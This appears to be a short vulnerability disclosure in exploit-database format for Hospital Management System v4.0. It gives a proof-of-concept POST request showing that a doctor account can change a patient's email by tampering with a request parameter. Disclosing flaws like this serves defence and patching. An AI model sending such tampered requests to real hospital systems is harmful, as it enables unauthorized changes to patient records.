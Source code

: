 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the email of patient that cannot modify in UI.

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/edit-patient.php?editid=2 HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com(CHANGE HERE)&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```